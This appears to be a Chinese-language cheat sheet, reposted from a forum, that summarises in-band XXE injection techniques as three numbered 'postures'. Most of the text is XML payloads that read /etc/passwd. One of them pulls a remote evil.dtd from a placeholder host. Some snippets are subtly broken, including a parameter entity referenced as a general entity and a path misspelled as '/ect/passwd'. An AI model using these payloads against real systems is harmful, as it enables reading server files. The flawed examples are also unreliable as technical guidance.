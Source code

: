 # XXE 有回显利用方式总结

> 原文：[https://www.zhihuifly.com/t/topic/3587](https://www.zhihuifly.com/t/topic/3587)

## XXE 有回显利用方式总结

结合外部实体声明（实体名称 SYSTEM ”uri/url“）和参数实体（% 实体名称 SYSTEM “uri-外部dtd”）有两种方式进行注入攻击

### 姿势一

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
    <!ELEMENT name ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<root>
    <name>&xxe;</name>
</root> 
```

### 姿势二

```
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</foo> 
```

### 姿势三

```
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "http://xxx/evil.dtd">
%xxe;]>
<foo>&evil;</foo> 
```

##### 外部evil.dtd的内容

```
<!ENTITY %evil SYSTEM "file:///ect/passwd"> 
```